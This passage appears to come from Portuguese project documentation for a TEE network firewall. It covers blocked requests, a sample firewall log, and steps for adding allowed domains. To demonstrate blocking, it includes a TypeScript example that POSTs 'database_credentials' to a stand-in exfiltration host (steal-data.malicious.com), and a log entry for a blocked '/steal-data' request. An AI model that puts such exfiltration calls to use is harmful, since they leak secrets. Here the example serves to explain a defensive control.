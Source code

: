 #### **🚨 O que Acontece com Requests Não Permitidos:**
```typescript
// Exemplo: Sua aplicação tenta fazer uma chamada maliciosa
try {
  const response = await fetch('https://steal-data.malicious.com/upload', {
    method: 'POST',
    body: JSON.stringify({ secrets: 'database_credentials' })
  });
} catch (error) {
  // ❌ TEE BLOQUEIA: Network error/timeout
  // 📊 TEE REGISTRA: Tentativa de acesso bloqueada
  console.error('TEE Firewall blocked malicious request');
}
```

#### **📊 Logs e Monitoramento do Firewall:**
```bash
# Ver todas as tentativas de conexão (permitidas + bloqueadas)
curl "http://TEE-IP:3000/v1/tee/http-logs"

# Exemplo de response:
{
  "session_id": "tee-session-123",
  "firewall_events": [
    {
      "timestamp": "2025-07-08T21:30:15.123Z",
      "action": "ALLOWED",
      "domain": "generativelanguage.googleapis.com",
      "path": "/v1beta/models/gemini-pro:generateContent",
      "method": "POST"
    },
    {
      "timestamp": "2025-07-08T21:30:20.456Z", 
      "action": "BLOCKED",
      "domain": "suspicious-site.com",
      "path": "/steal-data",
      "method": "POST",
      "reason": "Domain not in whitelist"
    }
  ]
}
```

### 4. Como Configurar Novos Domínios Permitidos

**⚠️ IMPORTANTE:** Adicionar novos domínios requer **rebuild + redeploy** completo da TEE.

#### **Passo 1: Configurar no Backend (NestJS)**
```typescript
// src/tee/services/firewall-config.service.ts
export const ALLOWED_DOMAINS = [
  // Existing domains...
  'new-api.trusted-service.com',  // Novo domínio
];
```
